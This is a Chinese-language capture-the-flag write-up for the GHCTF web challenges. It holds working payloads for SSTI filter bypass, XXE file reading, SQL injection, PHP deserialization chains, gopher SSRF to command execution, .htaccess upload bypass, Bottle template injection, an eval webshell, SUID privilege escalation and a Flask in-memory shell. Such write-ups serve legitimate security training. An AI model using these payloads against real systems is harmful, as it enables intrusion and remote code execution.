






战队名：我要打奥斯汀major
比赛排名：5
Web
upload?SSTI!
读取文件中的内容并进行模板渲染，存在ssti

有waf
1def contains_dangerous_keywords(file_path):
2 dangerous_keywords = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]
3
4 with open(file_path, 'rb') as f:
5 file_content = str(f.read())
6
7 for keyword in dangerous_keywords:
8 if keyword in file_content:
9 return True # 找到危险关键字，返回 True
简单绕一下
payload:
1{{""['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubcl'+'asses\x5f\x5f']()[139]['\x5f\x5finit\x5f\x5f']['\x5f\x5fglo'+'bals\x5f\x5f']['\x5f\x5fbui'+'ltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('OS'.lower()).popen('cat /f*').read()}}
随便传个txt就行

(>﹏<)
题目
1from flask import Flask,request import base64 from lxml import etree import re app = Flask(__name__) @app.route('/') def index(): return open(__file__).read() @app.route('/ghctf',methods=['POST']) def parse(): xml=request.form.get('xml') print(xml) if xml is None: return "No System is Safe." parser = etree.XMLParser(load_dtd=True, resolve_entities=True) root = etree.fromstring(xml, parser) name=root.find('name').text return name or None if __name__=="__main__": app.run(host='0.0.0.0',port=8080)
是个xxe
直接读flag
1curl -X POST http://node2.anna.nssctf.cn:28535/ghctf --data-urlencode '<!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///flag" > ]><root><name>&xxe;</name></root>'

SQL???
1url/?id=1 union select 1,2,3,4,sqlite_version()
发现是Sqlite
接着查表就行了
1url/?id=1 union select 1,2,3,4,sql from sqlite_master

1?id=1 union select 1,2,3,4,select flag from flag
2//直接从flag表中查flag列就行
Popppppp
题目
1<?php
2error_reporting(0);
3
4class CherryBlossom {
5 public $fruit1;
6 public $fruit2;
7
8 public function __construct($a) {
9 $this->fruit1 = $a;
10 }
11
12 function __destruct() {
13 echo $this->fruit1;
14 }
15
16 public function __toString() {
17 $newFunc = $this->fruit2;
18 return $newFunc();
19 }
20}
21
22class Forbidden {
23 private $fruit3;
24
25 public function __construct($string) {
26 $this->fruit3 = $string;
27 }
28
29 public function __get($name) {
30 $var = $this->$name;
31 $var[$name]();
32 }
33}
34
35class Warlord {
36 public $fruit4;
37 public $fruit5;
38 public $arg1;
39
40 public function __call($arg1, $arg2) {
41 $function = $this->fruit4;
42 return $function();
43 }
44
45 public function __get($arg1) {
46 $this->fruit5->ll2('b2');
47 }
48}
49
50class Samurai {
51 public $fruit6;
52 public $fruit7;
53
54 public function __toString() {
55 $long = @$this->fruit6->add();
56 return $long;
57 }
58
59 public function __set($arg1, $arg2) {
60 if ($this->fruit7->tt2) {
61 echo "xxx are the best!!!";
62 }
63 }
64}
65
66class Mystery {
67
68 public function __get($arg1) {
69 array_walk($this, function ($day1, $day2) {
70 $day3 = new $day2($day1);
71 foreach ($day3 as $day4) {
72 echo ($day4 . '<br>');
73 }
74 });
75 }
76}
77
78class Princess {
79 protected $fruit9;
80
81 protected function addMe() {
82 return "The time spent with xxx is my happiest time" . $this->fruit9;
83 }
84
85 public function __call($func, $args) {
86 call_user_func([$this, $func . "Me"], $args);
87 }
88}
89
90class Philosopher {
91 public $fruit10;
92 public $fruit11="sr22kaDugamdwTPhG5zU";
93
94 public function __invoke() {
95 if (md5(md5($this->fruit11)) == 666) {
96 return $this->fruit10->hey;
97 }
98 }
99}
100
101class UselessTwo {
102 public $hiddenVar = "123123";
103
104 public function __construct($value) {
105 $this->hiddenVar = $value;
106 }
107
108 public function __toString() {
109 return $this->hiddenVar;
110 }
111}
112
113class Warrior {
114 public $fruit12;
115 private $fruit13;
116
117 public function __set($name, $value) {
118 $this->$name = $value;
119 if ($this->fruit13 == "xxx") {
120 strtolower($this->fruit12);
121 }
122 }
123}
124
125class UselessThree {
126 public $dummyVar;
127
128 public function __call($name, $args) {
129 return $name;
130 }
131}
132
133class UselessFour {
134 public $lalala;
135
136 public function __destruct() {
137 echo "Hehe";
138 }
139}
140
141if (isset($_GET['GHCTF'])) {
142 unserialize($_GET['GHCTF']);
143} else {
144 highlight_file(__FILE__);
145}
146
147?>
跟去年ghctf的题目几乎一样
https://blog.csdn.net/liaochonxiang/article/details/140361138
走到Mystery类之后利用原生类读文件
POC
1import hashlib
2import itertools
3import string
4
5for i in itertools.product(string.printable, repeat=3):
6 s = ''.join(i)
7 s1 = hashlib.md5(s.encode()).hexdigest()
8 s2 = hashlib.md5(s1.encode()).hexdigest()
9 if s2[:3] == '666':
10 print(s)
11<?php
12class CherryBlossom{
13 public $fruit1;
14 public $fruit2;
15}
16class Philosopher {
17 public $fruit10;
18 public $fruit11;
19}
20class Mystery{
21 public $mystery;
22}
23$s = new CherryBlossom;
24$s->fruit1 = new CherryBlossom;
25$s->fruit1->fruit2 = new Philosopher;
26$s->fruit1->fruit2->fruit11 = 'Okg';
27$s->fruit1->fruit2->fruit10 = new Mystery;
28
29# $s->fruit1->fruit2->fruit10->FilesystemIterator='/';
30$s->fruit1->fruit2->fruit10->SplFileObject='/flag44545615441084';
31
32echo serialize($s);
33?>
ez_readfile
题目
1<?php
2 show_source(__FILE__);
3 if (md5($_POST['a']) === md5($_POST['b'])) {
4 if ($_POST['a'] != $_POST['b']) {
5 if (is_string($_POST['a']) && is_string($_POST['b'])) {
6 echo file_get_contents($_GET['file']);
7 }
8 }
9 }
10?>
md5强碰撞，我随便找了一对
1M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
2
3与
4
5M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
接下来的文件包含因为不知道flag名没办法直接读，很自然就能想到cnext
https://github.com/kezibei/php-filter-iconv
我用的这个工具打，感觉比原版好用
利用任意文件读取读maps和libc二进制文件，libc的路径在maps里面有
拿到文件之后直接生成payload打就行了
ezzzz_pickle
弱口令登录
admin/admin123
登进去之后发现有个任意文件读取
我这里直接打的非预期
直接读环境变量 /proc/1/environ，就能拿到flag
预期解应该是读源码然后读环境变量拿key和iv打pickle的
Payload:
1POST filename=/proc/1/environ
Goph3rrr
/app.py可以拿到源码
1@app.route('/Manage', methods=['POST'])
2def cmd():
3 if request.remote_addr != "127.0.0.1":
4 return "Forbidden!!!"
5 if request.method == "GET":
6 return "Allowed!!!"
7 if request.method == "POST":
8 return os.popen(request.form.get("cmd")).read()
9
10@app.route('/Gopher')
11def visit():
12 url = request.args.get('url')
13 if url is None:
14 return "No url provided :)"
15 url = urlparse(url)
16 realIpAddress = socket.gethostbyname(url.hostname)
17 if url.scheme == "file" or realIpAddress in BlackList:
18 return "No (≧∇≦)"
19 result = subprocess.run(["curl", "-L", urlunparse(url)], capture_output=True, text=True)
20 return result.stdout
主要是这两个路由，一个要本地访问，另一个可以打ssrf
其实这题就是0xgame2024的一道ssrf，几乎没改
payload拿来改一下直接打就行了
payload如下
1/Gopher?url=gopher://0.0.0.0:8000/_payload
2POST /Manage HTTP/1.1
3Host: 127.0.0.1:8000
4Content-Type: application/x-www-form-urlencoded
5Content-Length: 7
6
7cmd=env
把上面这个url编码两次之后放到payload那里
最终payload
1/Gopher?url=gopher://0.0.0.0:8000/_%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%34%64%25%36%31%25%36%65%25%36%31%25%36%37%25%36%35%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%61%25%33%38%25%33%30%25%33%30%25%33%30%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%32%64%25%37%37%25%37%37%25%37%37%25%32%64%25%36%36%25%36%66%25%37%32%25%36%64%25%32%64%25%37%35%25%37%32%25%36%63%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%36%34%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%37%25%30%61%25%30%61%25%36%33%25%36%64%25%36%34%25%33%64%25%36%35%25%36%65%25%37%36
环境变量里面有flag
UPUPUP
文件上传，fuzz了一下，感觉php是没什么可能绕过的了
想到打.htaccess
但是应该有exif_imagetype()，正常来说用GIF89a绕过.htaccess会报错
可以通过这个方法绕一下

Payload
1#define width 66
2#define height 66
3<FilesMatch "1.jpg">
4 SetHandler application/x-httpd-php
5</FilesMatch>
Message in a Bottle
bottle的模板注入
这题waf掉了{}
https://github.com/myzhan/bottle-doc-zh-cn/blob/master/docs/stpl.rst

看了一下文档，发现其实不用{}
Payload
1<h>
2 %import os;os.system('whoami')
3 %end
4</h>
题目没回显但是出网，我这里直接反弹shell读flag了
Escape！
漏洞点
1$userData = checkSignedCookie();
2if ($userData) {
3 #echo $userData;
4 $user=unserialize($userData);
5 #var_dump($user);
6 if($user->isadmin){
7 $tmp=file_get_contents("tmp/admin.html");
8
9 echo $tmp;
10
11 if($_POST['txt']) {
12 $content = '<?php exit; ?>';
13 $content .= $_POST['txt'];
14 file_put_contents($_POST['filename'], $content);
15 }
16 }
17 else{
18 $tmp=file_get_contents("tmp/admin.html");
19 echo $tmp;
20 if($_POST['txt']||$_POST['filename']){
21 echo "<h1>权限不足，写入失败<h1>";
22}
经典的死亡杂糅绕过
但是前提是要isadmin为1
看到反序列化，再加上题目暗示与waf有关，自然就想到了反序列化字符串逃逸
Waf
1<?php
2
3function waf($c)
4{
5 $lists=["flag","'","\\","sleep","and","||","&&","select","union"];
6 foreach($lists as $list){
7 $c=str_replace($list,"error",$c);
8 }
9 #echo $c;
10 return $c;
11}
我这里是先随便注册一个账号，然后拿到cookie之后解base64拿到序列化后的数据
1function setSignedCookie($serializedData, $cookieName = 'user_token', $secretKey = 'fake_secretKey') {
2 $signature = hash_hmac('sha256', $serializedData, $secretKey);
3
4 $token = base64_encode($serializedData . '|' . $signature);
5
6 setcookie($cookieName, $token, time() + 3600, "/"); // 设置有效期为1小时
7}
可以看到序列化的数据是直接进行base64编码的
构造出payload
1username flagandandandandandandandandandand";s:7:"isadmin";b:1;}
2password 123456 //随意
逃逸21个字符
登录之后写马就行，但是要绕一下死亡杂糅
https://xz.aliyun.com/news/7758
payload
1php://filter/convert.base64-decode/resource=1.php
2aPD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==
3//要补一个a
4//<?php @eval($_POST[1]);?>
GetShell
题目
1<?php
2highlight_file(__FILE__);
3
4class ConfigLoader {
5 private $config;
6
7 public function __construct() {
8 $this->config = [
9 'debug' => true,
10 'mode' => 'production',
11 'log_level' => 'info',
12 'max_input_length' => 100,
13 'min_password_length' => 8,
14 'allowed_actions' => ['run', 'debug', 'generate']
15 ];
16 }
17
18 public function get($key) {
19 return $this->config[$key] ?? null;
20 }
21}
22
23class Logger {
24 private $logLevel;
25
26 public function __construct($logLevel) {
27 $this->logLevel = $logLevel;
28 }
29
30 public function log($message, $level = 'info') {
31 if ($level === $this->logLevel) {
32 echo "[LOG] $message\n";
33 }
34 }
35}
36
37class UserManager {
38 private $users = [];
39 private $logger;
40
41 public function __construct($logger) {
42 $this->logger = $logger;
43 }
44
45 public function addUser($username, $password) {
46 if (strlen($username) < 5) {
47 return "Username must be at least 5 characters";
48 }
49
50 if (strlen($password) < 8) {
51 return "Password must be at least 8 characters";
52 }
53
54 $this->users[$username] = password_hash($password, PASSWORD_BCRYPT);
55 $this->logger->log("User $username added");
56 return "User $username added";
57 }
58
59 public function authenticate($username, $password) {
60 if (isset($this->users[$username]) && password_verify($password, $this->users[$username])) {
61 $this->logger->log("User $username authenticated");
62 return "User $username authenticated";
63 }
64 return "Authentication failed";
65 }
66}
67
68class StringUtils {
69 public static function sanitize($input) {
70 return htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
71 }
72
73 public static function generateRandomString($length = 10) {
74 return substr(str_shuffle(str_repeat($x = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ', ceil($length / strlen($x)))), 1, $length);
75 }
76}
77
78class InputValidator {
79 private $maxLength;
80
81 public function __construct($maxLength) {
82 $this->maxLength = $maxLength;
83 }
84
85 public function validate($input) {
86 if (strlen($input) > $this->maxLength) {
87 return "Input exceeds maximum length of {$this->maxLength} characters";
88 }
89 return true;
90 }
91}
92
93class CommandExecutor {
94 private $logger;
95
96 public function __construct($logger) {
97 $this->logger = $logger;
98 }
99
100 public function execute($input) {
101 if (strpos($input, ' ') !== false) {
102 $this->logger->log("Invalid input: space detected");
103 die('No spaces allowed');
104 }
105
106 @exec($input, $output);
107 $this->logger->log("Result: $input");
108 return implode("\n", $output);
109 }
110}
111
112class ActionHandler {
113 private $config;
114 private $logger;
115 private $executor;
116
117 public function __construct($config, $logger) {
118 $this->config = $config;
119 $this->logger = $logger;
120 $this->executor = new CommandExecutor($logger);
121 }
122
123 public function handle($action, $input) {
124 if (!in_array($action, $this->config->get('allowed_actions'))) {
125 return "Invalid action";
126 }
127
128 if ($action === 'run') {
129 $validator = new InputValidator($this->config->get('max_input_length'));
130 $validationResult = $validator->validate($input);
131 if ($validationResult !== true) {
132 return $validationResult;
133 }
134
135 return $this->executor->execute($input);
136 } elseif ($action === 'debug') {
137 return "Debug mode enabled";
138 } elseif ($action === 'generate') {
139 return "Random string: " . StringUtils::generateRandomString(15);
140 }
141
142 return "Unknown action";
143 }
144}
145
146if (isset($_REQUEST['action'])) {
147 $config = new ConfigLoader();
148 $logger = new Logger($config->get('log_level'));
149
150 $actionHandler = new ActionHandler($config, $logger);
151 $input = $_REQUEST['input'] ?? '';
152 echo $actionHandler->handle($_REQUEST['action'], $input);
153} else {
154 $config = new ConfigLoader();
155 $logger = new Logger($config->get('log_level'));
156 $userManager = new UserManager($logger);
157
158 if (isset($_POST['register'])) {
159 $username = $_POST['username'];
160 $password = $_POST['password'];
161
162 echo $userManager->addUser($username, $password);
163 }
164
165 if (isset($_POST['login'])) {
166 $username = $_POST['username'];
167 $password = $_POST['password'];
168
169 echo $userManager->authenticate($username, $password);
170 }
171
172 $logger->log("No action provided, running default logic");
173}
审计一下
1class CommandExecutor {
2 private $logger;
3
4 public function __construct($logger) {
5 $this->logger = $logger;
6 }
7
8 public function execute($input) {
9 if (strpos($input, ' ') !== false) {
10 $this->logger->log("Invalid input: space detected");
11 die('No spaces allowed');
12 }
13
14 @exec($input, $output);
15 $this->logger->log("Result: $input");
16 return implode("\n", $output);
17 }
18}
有个执行类
当传参Action为run的时候就能走进去了
传参input进行命令执行，waf了空格
尝试读flag发现读不了，要提权
尝试suid提权
1find / -perm -u=s -type f 2>/dev/null
2看到有wc，而且wc可以读文件
3
4./wc --files0-from "/flag"
Message in a Bottle plus
bottle注入的plus版
hint:增加了一点waf和Python语法错误检测，题目不出网
一开始试了很久发现一直说语法错误
后面想了想发现这个语法进行Python语法错误检测确实是会报错的
那我们用多行注释掉不就好了，因为题目不出网，打内存马
参考
https://xz.aliyun.com/news/17049
Payload
1"""
2% __import__('sys').modules['__main__'].app.route("/c","GET",lambda :__import__('os').popen('whoami').read())
3% end
4"""
访问/c拿回显